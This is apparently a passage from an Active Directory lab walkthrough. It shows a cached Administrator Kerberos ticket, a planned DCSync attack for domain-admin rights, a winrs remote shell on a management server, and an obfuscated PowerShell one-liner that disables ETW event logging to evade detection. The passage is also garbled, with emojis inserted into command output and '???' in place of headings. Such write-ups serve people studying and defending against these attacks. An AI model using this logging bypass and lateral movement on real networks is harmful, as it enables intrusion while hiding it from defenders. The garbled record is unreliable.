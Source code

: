 `klist`:
```
Cached Tickets: (1)

#0>     Client: Administrator🎭 @ TECH.FINANCE.CORP🏛️
        Server: http📌/mgmtsrv🖥️.tech.finance.corp @ TECH.FINANCE.CORP
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 3/11/2025 9:10:04 (local)
        End Time:   3/11/2025 19:10:04 (local)
        Renew Time: 3/18/2025 9:10:04 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

- **Leverage the Obtained Ticket to Run a DCSync Attack on the DC and Gain DA Privileges**
???

`winrs -r:mgmtsrv.tech.finance.corp cmd`:
```
Microsoft Windows [Version 10.0.17763.2452]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator.TECH>
```
🚀

![mgmtsrv | administrator](https://custom-icon-badges.demolab.com/badge/mgmtsrv-administrator-64b5f6?logo=windows11&logoColor=white)

`set username`:
```
USERNAME=Administrator👤
```

`set computername`:
```
COMPUTERNAME=MGMTSRV🖥️
```

### ???

![mgmtsrv | administrator](https://custom-icon-badges.demolab.com/badge/mgmtsrv-administrator-64b5f6?logo=windows11&logoColor=white)

`powershell`

`$ExecutionContext.SessionState.LanguageMode`:
```
FullLanguage
```

```powershell
[Reflection.Assembly]::"l`o`AdwIThPa`Rti`AlnamE"(('S'+'ystem'+'.C'+'ore'))."g`E`TTYPE"(('Sys'+'tem.Di'+'agno'+'stics.Event'+'i'+'ng.EventProv'+'i'+'der'))."gET`FI`eLd"(('m'+'_'+'enabled'),('NonP'+'ubl'+'ic'+',Instance'))."seTVa`l`Ue"([Ref]."a`sSem`BlY"."gE`T`TyPE"(('Sys'+'tem'+'.Mana'+'ge'+'ment.Aut'+'o'+'mation.Tracing.'+'PSEtwLo'+'g'+'Pro'+'vi'+'der'))."gEtFIe`Ld"(('e'+'tw'+'Provid'+'er'),('N'+'o'+'nPu'+'b'+'lic,Static'))."gE`Tva`lUe"($null),0)
```
